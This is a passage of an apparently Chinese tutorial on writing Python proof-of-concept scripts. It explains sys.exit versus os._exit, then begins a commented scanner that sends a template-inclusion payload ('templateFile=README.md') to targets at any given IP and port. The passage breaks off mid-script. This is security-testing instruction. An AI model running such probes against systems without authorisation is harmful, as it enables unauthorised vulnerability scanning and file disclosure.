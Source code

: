 ![image-20240411123119488](assets/image-20240411123119488.png)

#### 2.2.2.2. 脚本美化

到这里我们基本上一个`POC`就编写好了，是不是很简单，那么这里我们对这个`POC`进行美化优化，我们写`POC`，主要是针对不同的环境下不同的`IP`地址测试，而我们上述写的脚本中，都将`URL`写固定了，那么这样肯定是有问题的，所以我们对这个`POC`进行优化，确保能够适应不同`IP`以及不同端口的情况。

这里我要说一下关于`sys`这个模块：

参考文章：[python中 os._exit() 和 sys.exit()区别](https://blog.csdn.net/geekleee/article/details/52794826)

`os`模块中也有一个退出，而`os`模块中退出会将`python`秩序终止，之后的代码就不会继续执行，而`sys`模块中退出会引发一个异常：`SystemExit`，如果这个异常没有被捕获，那么`python`解释器将会退出。如果有捕获此异常的代码，那么这些代码还是会执行。捕获这个异常可以做一些额外的清理工作。`0`为正常退出，其他数值`（1-127）`为不正常，可抛异常事件供捕获。

`sys.exit()`的退出比较优雅，调用后会引发`SystemExit`异常，可以捕获此异常做清理工作。`os._exit()`直接将`python`解释器退出，余下的语句不会执行。

一般情况下使用`sys.exit()`即可，一般在`fork`出来的子进程中使用os._exit()

```python
sys.exit(0)：无错误退出
sys.exit(1)：有错误退出
```

这里我还是直接在脚本中加注释进行介绍：

```python
##这些库，请看我前两篇文章
import argparse  
import requests
##这个sys主要用到它退出
import sys

##创建POC模块接收两个参数
def poc(url, port):
    ##创建我们需要验证的payload
    payload = "/?a=display&templateFile=README.md"
    
    ##拼接传进来的url、端口、payload，并保存给url1 最后形成：http://URL:端口/?a=display&templateFile=README.md
    url1 = f"{url}:{port}{payload}"
    
    ##请求头，使用bp插件生成
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
```